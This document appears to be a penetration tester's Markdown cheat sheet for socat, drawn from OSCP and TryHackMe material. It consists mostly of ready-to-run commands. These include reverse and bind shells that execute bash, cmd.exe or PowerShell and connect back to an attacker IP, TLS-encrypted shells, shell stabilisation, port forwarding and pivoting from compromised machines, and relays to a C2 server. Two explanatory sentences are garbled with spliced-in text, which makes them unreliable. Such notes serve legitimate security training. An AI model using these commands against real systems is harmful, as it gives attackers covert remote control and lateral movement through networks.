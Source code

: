 # Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

#### Reverse Shells

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```



#### Bind Shells
Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

#### Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

#### File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

#### Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. pty, allocates a pseudoterminal on the target -- part of the stabation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toilisation process
1. stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. setsid, creates the process in a new session
1. sane, stabilises the terminal, attempting to "normalise" it

Similiarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```

### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req indicates that this is a certificate signing request. 
# -x509 specifies that we want an X.509 certificate
# -newkey rsa:4096 creates a new certificate request and a new private key using  RSA, with the key size(Optional sizes!) being 4096 bits. 
# -days 365 shows that the validity of our certificate will be one year
# -subj sets data, such as organization and country, via the command-line.
# -nodes simplifies our command and does not encrypt the private key
# -keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
# -out CERTIFICATE specifies the filename to which we want to write the certificate request
```
Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
`socat` listener and connection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

#### Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

Socat as a Proxy
```bash
socat TCP-LISTEN:6969,fork,reuseaddr,bind=127.0.0.1 TCP:remote_ip:remote_port
```

## Port Redirection and Tunnelling with `socat`

[[Port-Redirection-And-Tunnelling]] with `socat`

Port Forwarding
```bash
# Use to kill and manages jobs
jobs
kill $jobID

# Not stealthy will open a port on a compromised machine!
# Create a listener to port forward traffic from $targetToForwardAddr:$ForwardedPort
socat tcp-l:33060,fork,reuseaddr tcp:$targetToForwardAddr:$ForwardedPort &

# Stealthier
# Create a local port relay on attacking machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Reverse port forward from a compormised server back to  
socat tcp:$AttackingMachine:8001 tcp:$targetToForwardAddr:$ForwardedPort,fork &

```

Reverse Shell Relay 
```bash
# RemoteBox - create a listener that connects back to to the address of another box
socat tcp-l:8000 tcp:$LocalBoxAddr:443 &
# LocalBox has listen on port 443

# For port reuse from some proxy to another listening C2/Server/etc 
socat TCP-LISTEN:8000,reuseaddr,fork TCP:<destination_ip>:<destination_port>
```


## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)
[THM Wreath Room](https://tryhackme.com/room/wreath)